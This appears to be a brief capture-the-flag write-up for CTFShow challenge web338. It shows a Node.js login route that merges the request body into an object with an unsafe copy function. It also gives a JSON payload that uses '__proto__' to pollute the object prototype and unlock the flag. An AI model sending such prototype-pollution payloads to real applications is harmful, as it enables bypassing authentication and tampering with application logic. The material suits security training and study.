 CTF/WP/CTFShow/web338

- [源码](https://ctfshow.lanzoui.com/iAV6Xjs9bzc)
- /login
	- ```js
	  /* GET home page.  */
	  router.post('/', require('body-parser').json(),function(req, res, next) {
	    res.type('html');
	    var flag='flag_here';
	    var secert = {};
	    var sess = req.session;
	    let user = {};
	    utils.copy(user,req.body);
	    if(secert.ctfshow==='36dboy'){
	      res.end(flag);
	    }else{
	      return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
	    }
	    
	    
	  });
	  ```
- payload
	- ```json
	  {"username":"asdf","password":"asdf",
	  "__proto__":  {
	  "ctfshow": "36dboy"
	  }
	  }
	  ```